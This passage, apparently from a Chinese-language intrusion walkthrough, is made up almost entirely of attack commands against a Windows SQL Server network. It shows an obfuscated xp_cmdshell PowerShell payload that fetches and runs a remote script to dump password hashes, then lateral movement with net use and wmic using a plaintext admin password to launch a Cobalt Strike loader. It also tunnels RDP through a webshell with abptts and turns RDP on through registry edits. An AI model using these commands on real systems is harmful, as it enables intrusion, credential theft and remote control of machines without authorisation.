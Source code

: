 ```php
exec master..xp_cmdshell 'powershell -exec bypass -encodedcommand SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADMALgAxAC8ARwBlAHQALQBQAGEAcwBzAEgAYQBzAGgAZQBzAC4AcABzADEACgAnACkAOwBHAGUAdAAtAFAAYQBzAHMASABhAHMAaABlAHMAOwA=';
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-3756f49920ce8f8666462c34fdc9fb709169f6f8.png)  
放hashcat跑跑或者彩虹表解密一下  
![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-85034c34b02f24a228bdbba8f7862f71f7c5dad6.png)

### 尝试上线cs

如果目标是站库分离可以这么搞，如果没有直接用蚁剑上传即可

```php
# net use \\10.0.0.7\admin$ /user:"demo\administrator" "blackCeeeK#$%^2368"
# copy loader \\10.0.0.7\admin$\temp
# copy klsr \\10.0.0.7\admin$\temp\
# wmic /node:10.0.0.7 /user:"demo\administrator" /password:"blackCeeeK#$%^2368" PROCESS call create "c:\windows\temp\loader c:\windows\temp\klsr"
# del \\10.0.0.7\admin$\temp\loader /F
# del \\10.0.0.7\admin$\temp\klsr /F
# dir \\10.0.0.7\admin$\temp
# net use \\10.0.0.7\admin$ /del
```

### rdp 利用

`exec master..xp_cmdshell 'netstat -ano'` 查看开放端口  
![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-75c620e1f32fb4527ae09e3ea0b2c9ff8aa5e7b2.png)  
依然还是用 abptts 做下转发,即把本地的 389 转到内网 10.0.0.7 机器的 3389 端口上

```php
python2 abpttsclient.py -u "http://192.168.3.13:84/abptts.aspx" -c webshell\config.txt -f 127.0.0.1:389/192.168.3.13:3389
```

查询rdp状态

```php
# reg query "hkey_local_machine\system\currentcontrolset\control\terminal server" /v fdenytsconnections
# reg query "hkey_local_machine\system\currentcontrolset\control\terminal server\winstations\rdp-tcp" /v portnumber
```

开启或关闭目标 rdp

```php
# reg add "hkey_local_machine\system\currentcontrolset\control\terminal server" /v fdenytsconnections /t reg_dword /d 0 /f
# reg add "hkey_local_machine\system\currentcontrolset\control\terminal server" /v fdenytsconnections /t reg_dword /d 1 /f
```
